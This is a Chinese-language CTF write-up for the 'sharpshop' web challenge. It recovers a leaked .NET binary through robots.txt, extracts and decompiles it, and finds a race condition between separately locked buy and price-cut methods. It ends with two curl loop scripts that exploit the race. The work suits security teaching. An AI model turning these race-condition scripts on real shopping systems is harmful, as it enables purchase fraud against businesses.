 #Web #csharp #dotnet #reverse #竞态条件

记忆源点是封面欺诈，这题和Acreae真的没有关系（（（

```
/
```

![[Pasted image 20230514190039.png|800]]

砍价是减去`(FlagPrice - Wallet) / 2`，砍不完的（pdd：？）

通过Web上帝冥冥之中的指引，我们访问了奇怪的东西

```
/robots.txt
```

> User-agent: *
> Disallow: /sharpshop.tar

！是大自然的馈赠~

```
/sharpshop.tar
```

```shell
$ file app
app: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, BuildID[sha1]=151285fb3b9f0e8bc28b37aa06d105dfbb530c2d, stripped
```

都2302年了怎么还有人web服务藏着掖着的啊（恼

由标题"sharpshop"应该能推测出是C#写的，通常dotnet平台的程序编译成MSIL，由CLR实时翻译成native code执行，但这里给的是一个单文件，链接到musl libc

于是推测是发布时开启了PublishSingleFile和SelfContained开关，把IL和CLR暴力打包到一个可执行文件里，运行时解压到临时目录执行

~~可以使用[`sfextract`](https://github.com/Droppers/SingleFileExtractor)提取这些内容。~~听说新版本`ILSpy`也可以直接查看了qwq

```shell
$ sfextract app -o app.ex
Bundle version: 6.0
Extracted 171 files to "app.ex"
```

来看下购买部分的核心逻辑

```csharp
// Shopping
using System.Runtime.CompilerServices;
using System.Threading;

internal class Shopping
{
	private long _FlagPrice;

	private long _Wallet;

	private int _IsCutting;

	private int _IsBuying;

	public long FlagPrice => _FlagPrice;

	public long Wallet => _Wallet;

	public bool HasFlag { get; private set; }

	public void CutDown()
	{
		while (Interlocked.Exchange(ref _IsCutting, 1) != 0)
		{
		}
		_FlagPrice -= (_FlagPrice - _Wallet) / 2;
		Interlocked.Exchange(ref _IsCutting, 0);
	}

	public bool Buy(out string message)
	{
		while (Interlocked.Exchange(ref _IsBuying, 1) != 0)
		{
		}
		long flagPrice = _FlagPrice;
		_Wallet -= flagPrice;
		DefaultInterpolatedStringHandler defaultInterpolatedStringHandler = new DefaultInterpolatedStringHandler(6, 1);
		defaultInterpolatedStringHandler.AppendLiteral("购买后余额：");
		defaultInterpolatedStringHandler.AppendFormatted(_Wallet);
		message = defaultInterpolatedStringHandler.ToStringAndClear();
		bool result;
		if (_Wallet < 0)
		{
			_Wallet += flagPrice;
			message += "，余额不足～";
			result = false;
		}
		else
		{
			message += "，购买成功～";
			HasFlag = true;
			result = true;
		}
		Interlocked.Exchange(ref _IsBuying, 0);
		return result;
	}

	public Shopping()
	{
		_IsCutting = 0;
		_IsBuying = 0;
		_Wallet = 100L;
		_FlagPrice = long.MaxValue;
		HasFlag = false;
	}
}
```

初学多线程的CrackTC用了两个互斥锁 ***分别*** 锁住了`Buy`和`CutDown`的执行流，并这样说道

> 在我看来，这个程序是牢不可破的~~，所以我压根没有准备记忆源点啊哈哈哈哈哈~~

但是由于`Buy`和`CutDown`没有做到互斥，且都访问了`_FlagPrice`和`_Wallet`，竞态条件的可能性依然存在

假设某个时刻`_FlagPrice`为101，`_Wallet`为100，下面的路径将导致`_FlagPrice`变成50，`_Wallet`还是100，于是就买得起啦～

```
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |   _Flag -= (_FlagPrice - _Wallet) / 2  |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |                                        |
|                                       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         |         |                                        |
|                                       |         v         |                                        |
|     long flagPrice = _FlagPrice       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         v         |                                        |
|     _Wallet -= _FlagPrice             |         *---------+------------------>*                    |
|                                       |                   |                   |                    |
+---------------------------------------+-------------------+-------------------+--------------------+
|                                       |                   |                   v                    |
| if (_Wallet < 0) _Wallet += flagPrice |         *         |                   *                    |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
```

所以写俩脚本分别发送两种请求就行了

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=buy"
done
```

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=cutDown"
done
```